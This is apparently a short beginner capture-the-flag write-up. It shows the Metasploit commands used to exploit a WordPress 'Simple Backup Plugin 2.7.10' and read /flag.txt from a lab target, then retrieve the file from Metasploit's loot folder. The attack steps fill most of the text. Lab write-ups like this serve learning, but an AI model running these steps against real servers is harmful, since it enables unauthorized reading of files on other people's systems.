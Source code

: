 ## First hack with Metasploit

## Objective
Identify services running on the server and find public exploits to retrieve the content of `/flag.txt`.

## Steps
I first open up the target in my browser to see what we are working with. I meet a webpage displaying the text "Simple Backup Plugin 2.7.10 for WordPress".

I search up "simple backup" on Metasploit to see if I get any hits on it. The rest I will show is the commands to this hack.
<br>

```
msf6 > search simple backup
```
<br>

```
msf6 > use 0
```
<br>

```
msf6 > options
```
<br>

```
msf6 > set RHOST *ip-adress
```
<br>

```
msf6 > set RPORT *port
```
<br>

*this is because the question is asking us to try and get the content of the /flag.txt
```
msf6 > set FILEPATH /flag.txt
```
<br>

```
msf6 > run
```
<br>


```
cd /home/kali/.msf4/loot
```
<br>

```
ls
```
<br>


```
cat *file that you have displayed with the ls command
```
<br>

And there you have your flag. Your first hack
